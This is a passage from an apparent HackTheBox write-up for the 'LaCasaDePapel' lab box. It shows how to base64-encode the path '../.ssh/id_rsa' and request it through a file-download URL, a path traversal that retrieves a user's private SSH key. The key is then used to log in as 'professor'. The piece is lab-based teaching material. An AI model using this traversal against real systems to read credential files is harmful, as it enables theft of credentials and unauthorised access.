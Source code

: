 ![](/images/hackthebox/lacasadepapel/15.png)
<br> Let's download `id_rsa`, we know that the path is `../.ssh/id_rsa` :
```
root@kali:~/Desktop/HTB/boxes/lacasadepapel# echo -n "../.ssh/id_rsa" | base64
Li4vLnNzaC9pZF9yc2E=
root@kali:~/Desktop/HTB/boxes/lacasadepapel# 
```
<br> `-n` for no new lines.
`https://lacasadepapel.htb/file/Li4vLnNzaC9pZF9yc2E=`
![](/images/hackthebox/lacasadepapel/16.png)
<br> We found the key in `berlin`'s home directory, however I couldn't get `ssh` as `berlin`, I tried other users and `professor` worked :